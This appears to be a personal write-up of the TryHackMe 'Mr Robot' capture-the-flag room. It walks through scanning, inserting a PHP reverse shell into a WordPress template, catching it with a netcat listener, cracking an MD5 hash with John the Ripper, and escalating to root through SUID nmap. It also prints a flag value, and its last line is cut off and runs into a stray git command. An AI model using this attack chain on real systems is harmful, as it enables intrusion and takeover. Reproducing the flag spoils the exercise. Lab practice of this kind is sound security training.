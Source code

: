```yaml
---
tags:
  - CTF
  - reverse
  - RevShell
---
```

----------------------
Link: https://tryhackme.com/r/room/mrrobot
write-ups:
1. https://youtu.be/FxeFGkRhR3Q?si=yI84qwF4P7MExMCc
2. https://medium.com/@DRX_Sicher/writeup-mr-robot-ctf-1baf5f20e6f4

----

# Preparing


#### 1 - doing the scan stuff

```bash
nmap -A {ip}
```

```bash
gobuster dir -u {ip} -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```

---
#### 2 - important directories 

`/license` , `/robot` , `login`

---
#### 3 - get to `robot`

you will find the first flag in the file text in the `robot` directory, and another doc file with a word list

----

#### 4 - Login-page

- Go and login in the `/login` directory with the password you will find in `/license` directory - and scroll down in the page to find it-
- Get to the appearance menu in word press and go to editor and open any templte and add the `php reverse shell code` from the following link and make sure to add  your `IP` and the port and go to the link of the php you edit it `{ip}/404.php`:
	https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- and listen with 
```bash
nc -lvnp 6969
```
- change your shell to a normal shell
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
- print this file ---> `password.raw-md5` and crack the `md5` in the file with john the ripper
```bash
echo "c3fcd3d76192e4007dfb496cca67e13b" | tee hash && john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash
```
- and the flag is `822c73956184f694993bede3eb39f959`

-----

#### 5 -  Search for the root accessed binaries

- Find the binaries that have a root privileges  
```bash
find / -perm +6000 2>/dev/null | grep '/bin/'
```
- The hint on the site says one thing `nmap` and the `nmap` appears to have a root privileges, so what we want to do is to open an interactive shell to access the root directory of the machine from the `namp`
	- here is a link of a site to open an interactive shell, search with the name of the tool and the condition of your shell. the link --->
		https://gtfobins.github.io/gtfobins/nmap/
	- after that access the root directory `cd /root/` and take the keygit config --global user.name
